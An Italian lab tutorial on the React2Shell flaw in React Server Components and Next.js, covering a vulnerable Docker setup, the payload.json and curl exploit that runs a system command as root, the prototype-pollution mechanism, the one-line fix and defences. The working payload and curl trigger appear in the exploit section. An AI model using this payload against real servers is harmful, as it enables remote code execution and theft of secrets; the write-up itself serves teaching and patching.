





// Cosa Facciamo Oggi
Sezione 01. Il pianoParlare di sicurezza informatica in astratto non serve a niente. Serve sporcarsi le mani. Quindi oggi facciamo cosi': prendiamo una vulnerabilita' vera, con tanto di CVE, montiamo un server vulnerabile in Docker, lo sfruttiamo con un curl, e poi lo fixiamo. Il tutto sul vostro computer, senza toccare niente che non sia vostro.
La vulnerabilita' si chiama React2Shell. Ha due CVE: CVE-2025-55182 (la falla nel decoder di React Server Components, pacchetto react-server-dom) e CVE-2025-66478 (la manifestazione in Next.js). CVSS 10.0, il massimo. Dicembre 2025. Zero autenticazione richiesta. Un POST e sei root nel container.
Il piano e' semplice:
- Montiamo il lab (Docker, un comando)
- Verifichiamo che il server e' vulnerabile
- Lo sfruttiamo con un curl e vediamo il danno
- Capiamo perche' funziona (la teoria, spiegata dopo averla vista)
- Applichiamo la fix e verifichiamo che non funziona piu'
Disclaimer. Tutto quello che segue si fa in locale, su un container Docker vostro. Non testate mai exploit su sistemi che non vi appartengono. E' illegale e non e' nemmeno divertente.
// Montiamo il Lab
Sezione 02. Docker e via
Nella cartella scripts/react2shell-lab c'e' tutto. Un Dockerfile che crea un'app Next.js 16.0.6 (vulnerabile), un docker-compose.yml, e uno script Python per il check. Ve la faccio breve:
| 1 | FROM node:20-slim |
| 2 | WORKDIR /app |
| 3 | |
| 4 | # Installa Next.js vulnerabile (16.0.6) |
| 5 | RUN npx create-next-app@16.0.6 vuln-app --yes --use-npm 2>/dev/null |
| 6 | WORKDIR /app/vuln-app |
| 7 | RUN npm run build |
| 8 | EXPOSE 3000 |
| 9 | CMD ["npm", "run", "start"] |
Un comando e si parte:
| 1 | cd scripts/react2shell-lab |
| 2 | docker compose up --build -d |
Qualche minuto di build (la prima volta scarica Node, crea l'app, la compila) e poi:
Vedete quel "1 critical severity vulnerability"? npm te lo dice chiaro. E il build va avanti lo stesso.

Cosa c'e' nel container? Un'app Next.js 16.0.6 vergine. Nessun codice custom, nessuna Server Action, nessuna pagina modificata. La pagina "Welcome to Next.js" di default. E' gia' vulnerabile cosi'. Zero righe scritte da te.
// Il Primo Test
Sezione 03. Bussare piano
Prima di sfondare la porta, bussiamo. Ho scritto un checker che manda un payload "gentile" al server: esegue solo un throw Error. Non fa danni, non esegue comandi di sistema. Ci dice solo "si', sono vulnerabile, potresti entrarmi dentro quando vuoi".
| 1 | python3 check_vuln.py |
E nei log del container:
Quello Error: CVE-2025-55182-VULNERABLE nei log e' il nostro codice. Abbiamo mandato un JSON in un POST, e il server lo ha interpretato come JavaScript e lo ha eseguito. Quel throw Error potrebbe essere rm -rf /. Ci pensi? Noi gli abbiamo mandato un pacchettino educato e lui l'ha aperto e l'ha eseguito senza fare una domanda. Come una iena con i pacchi Amazon: arriva, apre e solo dopo si chiede se era roba sua.

// L'Exploit
Sezione 04. Sfondare la porta
Ok, il server ci ha detto "sono aperto". Adesso entriamo. Stesso meccanismo del test, ma invece di un throw Error educato, gli diciamo di eseguire id (il comando di sistema che ti dice chi sei sul server) e scrivere il risultato in un file.
I file del payload sono gia' nella cartella del lab. Questo e' payload.json:
| 1 | { |
| 2 | "then": "$1:__proto__:then", |
| 3 | "status": "resolved_model", |
| 4 | "reason": -1, |
| 5 | "value": "{\"then\": \"$B0\"}", |
| 6 | "_response": { |
| 7 | "_prefix": "process.mainModule.require('child_process').execSync('id > /tmp/pwned');", |
| 8 | "_formData": { |
| 9 | "get": "$1:constructor:constructor" |
| 10 | } |
| 11 | } |
| 12 | } |
E questo e' trigger.txt, una sola riga che attiva la catena:
| 1 | "$@0" |
Un curl e via:
| 1 | curl -X POST http://localhost:3000 \ |
| 2 | -H "Next-Action: dontcare" \ |
| 3 | -F "0=<payload.json" \ |
| 4 | -F "1=<trigger.txt" \ |
| 5 | --max-time 5 |
Timeout. Il server non risponde piu'. Si e' piantato. Bene. Adesso la domanda che conta: il comando e' stato eseguito prima che si piantasse?
uid=0(root).
Root nel processo Node dentro il container. Con un curl. Senza password, senza token, senza cookie, senza niente. Abbiamo mandato un JSON a un'app Next.js appena installata e adesso possiamo eseguire qualsiasi comando.

Il timeout non e' un bug del curl. E' un effetto collaterale, ed e' la parte piu' interessante dell'exploit. Vediamo perche'.
Il payload scrive una funzione su Object.prototype.then. In JavaScript, il runtime ha una regola: se un oggetto ha una proprieta' .then che e' una funzione, quell'oggetto e' una thenable. Lo tratta come una Promise. Non e' un'opinione: e' nella specifica (Promise Resolution Procedure).
| 1 | // Situazione normale |
| 2 | const obj = { name: "test" }; |
| 3 | Promise.resolve(obj); // risolve subito, obj non ha .then |
| 4 | |
| 5 | // Dopo il prototype pollution |
| 6 | Object.prototype.then = function(resolve) { resolve(this); }; |
| 7 | |
| 8 | const obj2 = { name: "test" }; |
| 9 | Promise.resolve(obj2); // obj2 ha .then (ereditato!) → thenable |
| 10 | // il runtime chiama obj2.then(resolve) |
| 11 | // resolve riceve obj2 → obj2 ha .then → ricomincia |
| 12 | // loop infinito. il server si blocca. |
Dopo l'avvelenamento, ogni oggetto nel processo Node.js eredita .then. Qualsiasi await, qualsiasi Promise.resolve(), qualsiasi callback asincrona che il framework esegue internamente, innesca il loop: il runtime prova a risolvere l'oggetto, chiama .then, ottiene indietro l'oggetto, vede che ha .then, richiama, e cosi' via. Il server entra in un ciclo infinito di risoluzioni Promise che non convergono mai.
Ma il comando (execSync) e' sincrono. Si esegue prima che il runtime arrivi al punto di trattare il risultato come una Promise. Il server muore dopo, non prima. Il timeout del curl e' la conferma che l'exploit ha funzionato.
Quel uid=0(root) in produzione significa game over. Al posto di id ci metti una reverse shell, leggi le variabili d'ambiente (dove di solito ci sono API key e secret di database), o installi quello che vuoi. Un container che gira come root senza network policy e' un regalo.
// Come Funziona
Sezione 05. Il perche'Ok, l'abbiamo visto funzionare. Adesso la domanda e': come ha fatto? Torniamo al payload e capiamo cosa succede dentro.
Il Flight Protocol
React Server Components hanno un loro formato per spedire dati tra browser e server. Si chiama Flight protocol. Quando il browser chiama una Server Action, manda un POST con multipart/form-data. Il server prende quel JSON, lo deserializza col Flight decoder, e lo passa alla funzione.
Il pezzo di codice che risolve i riferimenti ai moduli e' questo:
| 1 | // react-server-dom-turbopack (codice vulnerabile) |
| 2 | function requireModule(metadata) { |
| 3 | var moduleExports = __turbopack_require__(metadata[0]); |
| 4 | return moduleExports[metadata[NAME]]; // <-- nessun check |
| 5 | } |
Riga 4. moduleExports[metadata[NAME]]. Accesso con parentesi quadre, senza controllare cosa c'e' dentro NAME. Se qualcuno ci infila "__proto__", il codice non accede a una proprieta' dell'oggetto. Risale la catena dei prototipi. Ed e' li' che si rompe tutto.

Prototype Pollution
In JavaScript ogni oggetto ha un prototipo, cioe' un altro oggetto da cui eredita roba. Tipo un figlio che eredita il cognome. La catena e' cosi':
Prototype pollution e' quando riesci a scrivere su Object.prototype. Se ci riesci, tutti gli oggetti nel processo ereditano quella proprieta'. Tutti. Hai toccato il punto da cui dipende tutto il resto.
| 1 | const obj = {}; |
| 2 | obj.__proto__.isAdmin = true; |
| 3 | |
| 4 | const user = {}; // un oggetto qualsiasi, creato dopo |
| 5 | console.log(user.isAdmin); // true (!) |
Hai avvelenato la sorgente. Ogni nuovo oggetto nasce gia' infetto.
La catena di attacco
Il payload adesso ha senso. Guardiamolo:
"then": "$1:__proto__:then" — Dice al Flight decoder: "prendi il campo 1, vai a __proto__, poi a then". Il decoder esegue senza fiatare. Non controlla se __proto__ e' una proprieta' dell'oggetto. Qui avviene l'avvelenamento.
"_prefix": "process.mainModule.require('child_process').execSync('id > /tmp/pwned');" — Il codice che vogliamo eseguire. Potrebbe essere qualsiasi cosa.
"get": "$1:constructor:constructor" — Risale la catena: il constructor di un oggetto e' Object, il constructor di Object e' Function. E Function("codice") crea una funzione da una stringa e la esegue. Game over.
La cosa assurda? Non serve che l'app abbia Server Actions. Basta che Next.js usi App Router. L'header Next-Action nel POST attiva il Flight decoder a prescindere. Un progetto scaffoldato con create-next-app che installa next@16.0.6, senza toccare una riga, e' gia' bucabile. Come comprare una macchina nuova e scoprire che la serratura si apre con una graffetta.
// La Fix
Sezione 06. Una rigaDopo tutto quello che abbiamo visto ti aspetti un refactoring epico, un team di 15 persone, tre mesi di lavoro. Invece il commit e' questo:
| // facebook/react commit 7dc903c — 3 dicembre 2025 | |
| // packages/react-server-dom-*/src/client/ReactFlightClient.js | |
| function requireModule(metadata) { | |
| var moduleExports = __turbopack_require__(metadata[0]); | |
| - return moduleExports[metadata[NAME]]; | |
| + if (hasOwnProperty.call(moduleExports, metadata[NAME])) { | |
| + return moduleExports[metadata[NAME]]; | |
| + } | |
| + return undefined; | |
| } |
Un if. hasOwnProperty.call() controlla se la proprieta' appartiene direttamente all'oggetto, non alla catena dei prototipi. __proto__ e constructor sono proprieta' ereditate, non proprie. Con quel check il decoder le ignora e tutta la catena di exploit si spezza al primo anello. L'equivalente di mettere il chiavistello alla porta. Uno. Un chiavistello.
// Verifica della Fix
Sezione 07. Aggiorniamo e riproviamoFermiamo il container, cambiamo la versione nel Dockerfile da 16.0.6 a 16.0.7, ribuildiamo:
| 1 | docker compose down |
| 2 | sed -i '' 's/16.0.6/16.0.7/' Dockerfile |
| 3 | docker compose up --build -d |
Aspettiamo che parta e riproviamo tutto:
Niente timeout, niente file, niente uid=0(root). Il server risponde normalmente e il payload non viene eseguito. Un numero di versione di differenza. Ho chiamato la iena per farle vedere. "Vedi? Prima era bucato, adesso no." "Ok." E se n'e' andata. 26 anni di matrimonio in una parola.

// Versioni Colpite e Patchate
Sezione 08. Controlla la tua app| Pacchetto | Vulnerabile | Patchato |
|---|---|---|
| react-server-dom-webpack | 19.0, 19.1.0, 19.1.1, 19.2.0 | 19.0.1, 19.1.2, 19.2.1 |
| react-server-dom-turbopack | 19.0, 19.1.0, 19.1.1, 19.2.0 | 19.0.1, 19.1.2, 19.2.1 |
| Next.js | 15.0 — 16.0.6 | 15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7, 16.0.7 |
Chi sta tranquillo: Next.js 13.x, 14.x stable, chi usa ancora Pages Router (la vecchia cartella pages/), Edge Runtime, SPA classiche senza server components (Vite, CRA).
| 1 | # Controlla la tua versione |
| 2 | npx next --version |
// Cosa Porto a Casa
Sezione 09. Le difese
Un server e' caduto per un obj[userInput] senza validazione. Succede piu' spesso di quanto pensi. Ecco le difese, dalla piu' semplice alla piu' aggressiva:
| Difesa | Cosa fa | Quando |
|---|---|---|
hasOwnProperty |
Controlla che la proprieta' sia dell'oggetto, non del prototipo | Ogni obj[chiave] con chiave esterna |
Object.create(null) |
Oggetto senza prototipo. Niente __proto__, niente catena |
Dizionari, lookup table, cache |
Map |
Struttura nativa chiave/valore, immune a pollution | Alternativa moderna ai dizionari |
| Allowlist | Lista esplicita delle chiavi ammesse, il resto si scarta | API, config, parametri utente |
Object.freeze(Object.prototype) |
Rende il prototipo immutabile. Nessuno ci scrive | Hardening estremo (puo' rompere librerie) |
La regola e' una sola. Se una chiave arriva dall'esterno e finisce tra parentesi quadre, hai un potenziale prototype pollution. Non importa se il framework e' React, Express, Fastify, o uno script che hai scritto alle 3 di notte. Il pattern e' sempre quello: obj[roba_che_non_controlli].
// Conclusione
Sezione 10. Chiudiamo
Siamo partiti con un container Docker e siamo finiti con un uid=0(root) su un server Next.js bucato con un curl. Poi l'abbiamo fixato cambiando una riga. Una. La distanza tra "sei dentro" e "non passi" e' un hasOwnProperty.
Le vulnerabilita' non sono magia nera. Sono bug. Bug che si capiscono, si riproducono, si fixano. Il casino e' quando nessuno li cerca, nessuno aggiorna, e tutti pensano "tanto lo usano tutti, sara' sicuro". Lo usavano tutti anche quando era bucato.
Se hai un'app Next.js con App Router, controlla la versione. Se e' tra quelle vulnerabili, aggiorna. Un npm update e un rebuild.
La distanza tra "il server e' tuo" e "il server e' sicuro" e' un hasOwnProperty.
CVE-2025-55182 / CVE-2025-66478. Dicembre 2025. CVSS 10.0.
Fix: una riga. Impatto: mezzo web.